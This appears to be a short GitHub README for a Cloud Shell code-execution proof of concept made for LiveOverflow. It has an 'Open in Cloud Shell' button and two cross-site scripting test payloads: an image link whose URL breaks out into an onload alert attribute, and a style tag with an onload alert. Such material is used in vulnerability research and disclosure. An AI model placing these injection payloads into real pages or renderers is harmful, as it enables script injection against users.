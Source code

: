 # Cloudshell code execution poc for LiveOverflow

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/offensi/LiveOverflow-cloudshell-poc&open_in_editor=LiveOverflow.java)

![Uh oh...](https://gstatic.com/cloudssh/images/open-btn.png"onload="alert('XSS'))

<style onload="alert(0)">

